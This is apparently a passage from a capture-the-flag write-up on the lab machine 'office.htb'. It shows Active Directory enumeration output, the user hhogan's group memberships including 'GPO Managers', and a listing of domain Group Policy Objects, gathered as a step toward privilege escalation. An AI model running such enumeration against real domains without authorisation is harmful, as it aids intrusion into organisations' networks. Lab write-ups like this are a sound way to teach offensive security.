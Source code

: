 ```markdown
QuotasContainer                    : CN=NTDS Quotas,DC=office,DC=htb
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {DC.office.htb}
RIDMaster                          : DC.office.htb
SubordinateReferences              : {DC=ForestDnsZones,DC=office,DC=htb, DC=DomainDnsZones,DC=office,DC=htb, CN=Configuration,DC=office,DC=htb}
SystemsContainer                   : CN=System,DC=office,DC=htb
UsersContainer                     : CN=Users,DC=office,DC=htb
```
Enumerate the user `hhogan`, pay attention to group memberships.
```markdown
> whoami
office\hhogan

> net user hhogan
User name                    HHogan
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/6/2023 10:59:34 AM
Password expires             Never
Password changeable          5/7/2023 10:59:34 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/10/2023 4:30:58 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Users         *GPO Managers
The command completed successfully.
```
So the user is member of a group called `GPO Managers`, which suggests he may be able to write GPOs.<br>
<br>
Enumerate all the domain GPOs.
```markdown
> Get-GPO -All

DisplayName      : Windows Firewall GPO
DomainName       : office.htb
Owner            : OFFICE\Domain Admins
Id               : 04fe5c75-0078-4d44-97c5-8a796be906ec
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 5/10/2023 9:47:27 AM
ModificationTime : 5/10/2023 8:47:26 AM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 0, SysVol Version: 0
WmiFilter        :

DisplayName      : Default Domain Policy
DomainName       : office.htb
Owner            : OFFICE\Domain Admins
Id               : 31b2f340-016d-11d2-945f-00c04fb984f9
```